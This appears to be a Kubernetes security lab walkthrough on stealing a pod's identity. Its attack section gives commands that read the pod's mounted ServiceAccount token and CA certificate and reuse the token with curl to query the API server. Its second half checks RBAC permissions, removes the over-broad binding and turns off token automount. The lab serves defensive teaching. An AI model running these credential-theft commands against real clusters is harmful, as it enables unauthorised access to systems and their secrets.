 # Identity theft

In this lab you will steal the identity of a pod.

## Attack

### SSH into the VM

```bash
gcloud compute ssh root@kubernetes-security --zone europe-west3-a
```

### Getting the credentials

```bash
# verify the sensitive data in the pod
kubectl exec -it my-suboptimal-pod -- cat /var/run/secrets/kubernetes.io/serviceaccount/token
kubectl exec -it my-suboptimal-pod -- cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt
```

### Exploiting the API-Server

```bash
# store the token into an env variable
TOKEN=$(kubectl exec -it my-suboptimal-pod -- cat /var/run/secrets/kubernetes.io/serviceaccount/token)

# store the CA into a file
kubectl exec -it my-suboptimal-pod -- cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt > ca.crt

# get infos about pods
curl -s $API_SERVER/api/v1/namespaces/default/pods --header "Authorization: Bearer $TOKEN" --cacert ca.crt
```

## Avoiding the Attack

### Checking the permissions

```bash
# check permissions in the default namespace
kubectl auth can-i --list --namespace default

# check the clusterrolebinding
kubectl describe clusterrolebinding my-suboptimal-clusterrolebinding

# check the permissions of the cluster role
kubectl describe clusterrole cluster-admin
```

### Disable permissions

```bash
# disable permissions
kubectl delete clusterrolebinding my-suboptimal-clusterrolebinding

# try to get infos about pods - now this should fail
curl -s $API_SERVER/api/v1/namespaces/default/pods --header "Authorization: Bearer $TOKEN" --cacert ca.crt
```

### Avoiding token mounts

Disable automount of ServiceAccount Token in the file `pod.yaml`

```yaml
spec:
  automountServiceAccountToken: false # <= disable automount of ServiceAccount Token
```

```bash
kubectl apply -f pod.yaml --force
```

#### Verify sensible data is not mounted anymore

```bash
kubectl exec -it my-suboptimal-pod -- cat /var/run/secrets/kubernetes.io/serviceaccount/token
kubectl exec -it my-suboptimal-pod -- cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt
```
